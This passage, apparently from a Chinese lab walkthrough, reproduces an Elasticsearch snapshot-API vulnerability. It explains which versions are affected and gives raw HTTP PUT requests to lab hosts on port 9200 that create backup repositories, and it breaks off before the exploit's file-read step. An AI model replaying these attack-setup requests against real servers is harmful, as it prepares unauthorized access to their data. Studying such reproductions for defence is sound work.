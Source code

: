 ![image-20220326120828163](https://s2.loli.net/2022/03/26/4IWKiYMEjobfyOU.png)

1.5.1及以前，无需任何配置即可触发该漏洞。之后的新版，配置文件elasticsearch.yml中必须存在path.repo，该配置值为一个目录，且该目录必须可写，等于限制了备份仓库的根位置。不配置该值，默认不启动这个功能。
 访问本机ip:9200

**访问存在的漏洞页面：（9200一般为ElasticSearch的常用端口）**

![image-20211207094458484](https://s2.loli.net/2022/03/26/jaVWq7L3tkCdPZN.png)



**elasticsearch 的备份与快照功能**

漏洞利用需要涉及到elasticsearch的备份功能，elasticsearch 提供了一套强大的API，使得elasticsearch备份非常简单

要实现备份功能。前提是elasticsearch 进程对备份目录有写入权限，一般来说我们可以利用/tmp 或者elasticsearch 自身的安装目录，默认情况下这两个目录elasticsearch 进程都是有写入权限的

## 新建仓库

备份数据之前，要创建一个仓库来保存数据

```
PUT /_snapshot/test HTTP/1.1
Host: 192.168.188.133:9200
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 110

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test" 
    }
}

```

上面的代码，我们创建了一个名叫test的备份仓库，存放在本地的/usr/share/elasticsearch/repo/test 目录下

![image-20211207094616942](https://s2.loli.net/2022/03/26/8jlXF9OeNGDKWmC.png)

## 创建一个快照

```
PUT /_snapshot/tes2t HTTP/1.1
Host: 192.168.91.130:9200
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 128

{
    "type": "fs",
    "settings": {
        "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata" 
    }
```